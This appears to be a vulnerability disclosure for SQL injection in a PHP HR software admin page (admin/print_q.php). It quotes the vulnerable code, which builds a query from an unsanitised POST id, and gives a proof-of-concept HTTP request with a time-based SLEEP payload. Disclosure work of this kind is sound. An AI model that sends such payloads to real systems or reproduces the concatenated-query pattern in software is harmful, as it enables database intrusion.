 ### Vulnerability file address

`admin/print_q.php` from line 19,The `$_POST['id']` parameter is controllable and the `$_POST['id']` is not protected from sql injection, line 22 `$statement = $conn->prepare($sql);` ,line 23 `$statement->execute();`,line 23 performs a SQL query, causing SQL injection

```php
<?php
error_reporting(0);
require_once('../assets/constants/config.php');
require_once('../assets/constants/check-login.php');
require_once('../assets/constants/fetch-my-info.php');

?>

<?php


$stmt = $conn->prepare("SELECT * FROM admin WHERE id='" . $_SESSION['id'] . "'");
$stmt->execute();
$result = $stmt->fetch(PDO::FETCH_ASSOC);

?>

<?php
$sql = "SELECT * FROM tbl_quoatation where  id='" . $_POST['id'] . "'";


$statement = $conn->prepare($sql);
$statement->execute();
$invoice = $statement->fetch(PDO::FETCH_ASSOC);
```

### POC

```http
POST /CMS/php/_hr_soft/admin/print_q.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

id=1000';SELECT SLEEP(5)#
```

### Attack results pictures

![image-20250130161319170](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501301613212.png)